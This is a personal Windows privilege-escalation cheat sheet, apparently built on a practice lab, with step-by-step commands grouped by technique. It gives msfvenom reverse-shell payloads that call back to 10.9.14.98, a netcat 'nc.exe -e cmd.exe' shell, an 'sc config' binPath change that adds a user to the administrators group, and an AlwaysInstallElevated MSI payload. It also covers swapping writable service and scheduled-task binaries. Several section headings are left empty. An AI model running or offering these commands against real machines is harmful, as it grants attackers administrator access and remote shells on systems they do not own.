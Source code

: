 For Windows Priviledge Escalation guide you can follow these two posts:


1-https://www.fuzzysecurity.com/tutorials/16.html


2-https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/


HERE'S HOW I APPROACH FOR ESCALATING PRIVILEDGES:

![Windows_priv_esc_password_credentials](https://user-images.githubusercontent.com/55708909/92549895-fb567a00-f277-11ea-947d-8929d12b723d.png)


1- Services (binpath):
-----------------------------------------------------------------------
         First transfer the accesschk64.exe to system 
   
         Run accesschk64.exe -accepteula
   
         Run accesschk64.exe -wvuc "Service name"       accesschk64.exe -wvuc daclsvc
   
   ![Service(BIn_Path)](https://user-images.githubusercontent.com/55708909/92556310-390ecf00-f287-11ea-8a85-1af55670e7aa.png)

          You will see that everyone has read and write permission to change SERVICE_CHANGE_CONFIG
          
          Write this: sc config daclsvc binPath= "net localgroup administrators user /add"
          
          Then write this : sc start daclsvc 
          
          You will be added to admin group 

![Service(BIn_Path_1)](https://user-images.githubusercontent.com/55708909/92556850-8c355180-f288-11ea-982b-b02fd5864ca2.png)


2- Services (Unquoted path):
---------------------------------------------------------------------------------------
          For it to work we need to identify which are the path which are not included in quotes
          
          wmic service get name,pathname,startmode | findstr /i /v "c:\windows\\" | findstr /i /v """
          
 ![Service(Unquoted_path)](https://user-images.githubusercontent.com/55708909/92557524-05817400-f28a-11ea-9d03-b9f21efc8826.png)

          First transfer nc.exe to C:\Users\user directory
          
          msfvenom -p windows/exec CMD="C:\Users\user\nc.exe 10.9.14.98 443 -e cmd.exe" -f exe-service > common.exe
          
          Transfer the common.exe to C:\Program Files\Unquoted Path Service
          
          type sc start unquotedsvc
          
 ![Service(Unquoted_path_1)](https://user-images.githubusercontent.com/55708909/92558713-c3a5fd00-f28c-11ea-9423-fe436ac65491.png)
         
          

3- Service (Registry):
-------------------------------------------------------------------------------------------

4- Services( Executable files):
---------------------------------------------------------------------------------------------
          
           Transfer the accesschk.exe to pc and check for weak executable service
           
![Service(Executable)](https://user-images.githubusercontent.com/55708909/92559368-1a600680-f28e-11ea-940d-2472ece84622.png)
 
            We notice that everyone has read and write access to filepermservice.exe
            
            msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.98 LPORT=4444 -f exe > filepermservice.exe
            
            transfer filepermservice.exe to target system
            
            copy /y filepermservice.exe "C:\Program Files\File Permissions Service"

            sc start filepermsvc 
            
![Service(Executable_1)](https://user-images.githubusercontent.com/55708909/92560004-45972580-f28f-11ea-88fd-f5c365dd41ef.png)

           
5- Registry (Always installed elevated):
---------------------------------------------------------------------------------------------
            
            reg query HKLM\Software\Policies\Microsoft\Windows\Installer
            
            reg query HKCU\Software\Policies\Microsoft\Windows\Installer
            
            If they gave output as 1 then this means we can create our payload in msi format and can escalate priv
            
            msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.98 LPORT=4444 -f msi > access.msi

            Transfer it to target machine
            
            msiexec /quiet /qn /i C:\Users\user\access.msi
 
            Netcat session with admin rights
            
![Registry(Always_install)](https://user-images.githubusercontent.com/55708909/92560985-ef2ae680-f290-11ea-8166-aeb34190e869.png)
            
6- Registry (Modified autorun): Need to have admin login to work
-------------------------------------------------------------------------------------------------
             
   ![REgistry_auto_run](https://user-images.githubusercontent.com/55708909/92561769-72007100-f292-11ea-919a-444e7874cd5b.png)
   
             As you can see everyone has read and write to program.exe this means simply replace that executable
              
             with your version of executable and wait for admin to login and have admin rights

7- Password minig (Registry):
-------------------------- -----------------------------------------------------------------

![Password_mining(REgistry)](https://user-images.githubusercontent.com/55708909/92564190-66af4480-f296-11ea-9139-eea67ec26650.png)

             
8- Password mining (Memory)
-----------------------------------------------------------------------------------------
          

9- Password mining (Configuration Files):
------------------------------------------------------------------------------------------
        
![Password_mining(Configuration)](https://user-images.githubusercontent.com/55708909/92562987-7ded3280-f294-11ea-9a0e-b9551fae7529.png)

![Password_mining(Configuration_1)](https://user-images.githubusercontent.com/55708909/92563469-3e731600-f295-11ea-98ad-8517e167fc2f.png)

            
10- Scheduled tasks (Missing binary):
------------------------------------------------------------------------------------------

        While checking for schedule task we found one of the binary missings.
        
 ![Windows_Priv_Esc_scheduled_task_missing_binary](https://user-images.githubusercontent.com/55708909/92596152-04b90400-f2c3-11ea-8f25-7d4b8ac8379b.png)
       
        Program.exe is missing
        
        msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.98 LPORT=4444 -f exe > program.exe
        
        Put it in C:\Missing Schedule Binary and restart pc 
        
        You will have admin access

![Schedule_task_missing_binary](https://user-images.githubusercontent.com/55708909/92596554-9cb6ed80-f2c3-11ea-9f13-c4a96b5ba764.png)


11- Startup applications:
--------------------------------------------------------------------------------------------
        
        As you can see users has full access over the mention directory and therefore can change the binary with there
        
        own version and thus leding to priv escalations
        
![Start_up_app_1](https://user-images.githubusercontent.com/55708909/92597636-51054380-f2c5-11ea-9ddd-aa93dfbf7ab7.png)
        
        
12- Potato attacks:
--------------------------------------------------------------------------------------------

13- DLL Hijacking:
----------------------------------------------------------------------------------------------

14-Kernel exploits:
----------------------------------------------------------------------------------------------
